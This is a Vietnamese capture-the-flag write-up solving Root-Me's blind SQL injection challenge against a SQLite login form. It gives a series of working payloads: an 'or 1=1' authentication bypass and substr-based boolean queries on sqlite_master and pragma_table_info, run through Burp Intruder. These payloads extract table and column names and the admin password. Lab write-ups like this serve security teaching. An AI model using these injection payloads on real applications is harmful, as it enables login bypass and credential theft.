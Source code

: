 # SQL Injection Bind
Link to chall: http://challenge01.root-me.org/web-serveur/ch10/
![](https://i.imgur.com/C0QjPD7.png)

## Solution
Vào đầu chall em bắt đầu thử đăng nhập để xem các tính năng cũng như kết quả trả về của từng đầu vào ra sao.
- Đăng nhập thử với `username=a` và `password=a` ![](https://i.imgur.com/qTL4NYb.png)
- Lỗi hiện ra là: `no such user/password`
- Đăng nhập thử với `username=a'` và `password=a` ![](https://i.imgur.com/OELKe1Y.png)
- Lỗi hiện ra là: `SQLite3::query(): Unable to prepare statement...`
- Tiếp tục nhưng với `username=a' or 1=1 --` và `password=a` ![](https://i.imgur.com/0vBcAYW.png)
- Ta đã đăng nhập thành công vào tài khoản user1
- Thử tiếp với: `username=a' or 1=1 order by 1 --` và `password=a` ![](https://i.imgur.com/UskFq0O.png)
- Ta đã đăng nhập thành công vào tài khoản admin

Nhờ những bước fuzz đơn giản trên ta đã xác định được: 
- database là sqlite
- có ít nhất 2 user là: user1 và admin
- để solve chall thì ta chỉ cần tìm được password của user admin

Vì dữ liệu của truy vấn không được trả về nên ta không thể sử dụng union để list tên table, thêm cả tên bài là 'Blind' nên ta sẽ brute force tên bẳng burp suite:

`username=admin' AND (SELECT length(name) from sqlite_master where type='table')>1 --&password=1`

Sử dụng payload trên để tìm tên table:
- Em đoán đoạn select phía trước là `SELECT * FROM tenbang WHERE tencotuser='bien username nhap vao' AND tencotpassword='bien pasword nhap vao'
- Dựa vào bên trên em đã biết được user `admin` có tồn tại nên khi đưa đưa `username=admin'` vào em sẽ được 1 mệnh đề điều kiện đúng
- Thay vì `AND` với password thì em thay bằng `AND` với điều kiện mà em muốn kiểm tra rồi comment hết đoạn sau lại bằng `--`
- Đầu tiên là em phải tìm độ dài của table nên điều kiện em phải kiểm tra ở đây là `SELECT length(name) from sqlite_master where type='table'` từ `sqlite_master` ở đâu có kiểu dữ liệu là `table` thì lấy ra độ dài của tên bảng đó. rồi em cho nó so sánh với chiều dài mà em đoán, rồi tăng dần giá trị đấy lên ![](https://i.imgur.com/WAJgE32.png)
- Tăng giá trị đó lên `>5` thì response trả về sai ![](https://i.imgur.com/qSiC3fh.png)
- Vậy em có thể kết luận chiều dài của bảng là 5 ký tự

Từ đây em có thể bắt đầu brute force từ ký tự của bảng với payload sau: 
`username=admin' AND substr((SELECT name from sqlite_master where type='table'),1,1)='a' --&password=1`
- Hàm `substr()` dùng để từ vị trí thứ nhất của chuỗi tên table được lấy ra hãy lấy ra 1 ký tự
- Rồi em đem so sánh ký tự vừa lấy ra đấy với ký tự em brute force
- Ở Intruder trung burp, ta set up như sau
- ![](https://i.imgur.com/ZCmoabx.png)
- Attack type là Cluser bomb để chạy cả 2 payload độc lập
- Add marker vào param thứ 2 của hàm substr để em tăng dần vị trí lấy ký tự ra so sánh ở payload set số 1, và add marker vào ký tự mà em muốn so sánh để thay đổi ký tự đó ở payload set số 2.
- Tại payload set 1:![](https://i.imgur.com/5Ynopzu.png)
Payload type: là Number và cho nó chạy từ 1 đến 5 với step là 1 vì độ dài table chỉ có 5 ký tự
- Tại payload set 2: ![](https://i.imgur.com/TGvo1kv.png)
Payload type: là Simple list rồi em add list các ký tự cho phép đặt trong tên của table.

Start Attack và em có được kết quả: ![](https://i.imgur.com/enuidug.png)
Vậy tên table là `users`


Bây giờ đến xử lý tên cột, em dùng payload sau để xác định độ dài của tên các cột trong bảng:
`username=admin' AND (SELECT length(name) FROM pragma_table_info('users') LIMIT 0,1)>0 --&password=1`

- Tăng dần thành `LIMIT 1,1`,`LIMIT 2,1`,`LIMIT 3,1`,... ![](https://i.imgur.com/BIFRgoa.png)
- Em thấy rằng tại `LIMIT 3,1` response trả về sai ![](https://i.imgur.com/KaJqlXg.png)
 Nên em suy ra bảng này có 3 cột
- Tại `LIMIT 0,1` lấy ra tên cột thứ nhất của bảng rồi em đem so sánh với 1 số ![](https://i.imgur.com/zKlf6h8.png)
 Tăng dần số đó lên thấy đến 8 thì response trả về sai ![](https://i.imgur.com/QDZwJdh.png)
 Nên em suy ra ở cột từ nhất có tên dài 8 ký tự
 Tương tự như các trên em tìm độ dài của 2 cột còn lại: cột thứ hai cũng 8 ký tự và cột thứ ba 4 ký tự

Đã có độ dài của cột em bắt đầu brute force tên từng cột từ cột thứ nhất với payload:
`username=admin%27 AND substr((SELECT name FROM pragma_table_info('users') LIMIT 0,1),§1§,1)='§a§' --&password=1`

Ta được kết quả tên cột thứ nhất là `username`: ![](https://i.imgur.com/ZvLcH7w.png)

Tương tự với cột thứ hai, thứ ba tthifem tăng thành LIMIT 1,1 và LIMIT 2,1
Ta được tên cột thứ 2 là `password` ![](https://i.imgur.com/Sa2X2ex.png)
Và cột thứ 3 là `Year` ![](https://i.imgur.com/N7Ybr0l.png)

Đã có được tên bảng em đi đến những bước cuối cùng là tìm độ dài password của admin và brute force nó với payload:
`username=admin%27 AND (SELECT length(password) from users where username='admin')>0 --&password=1`
Cũng tăng dần nó lên và với độ dài > 8 trả về response sai ![](https://i.imgur.com/M7A1ybz.png)
Em xác định được độ dài password của admin là 8 ký tự giờ chỉ còn việc brute force nó nữa thuiii, gét gô~~~

Em xử dụng payload: `username=admin%27 AND substr((SELECT password from users where username='admin'),§1§,1)='§a§' --&password=1`

Tén tén tén tennnn: ![](https://i.imgur.com/wUgnwZ7.png)

Em đã brute force được password của admin là: `e2azO93i`
Lấy password là vào solve thoiiiiii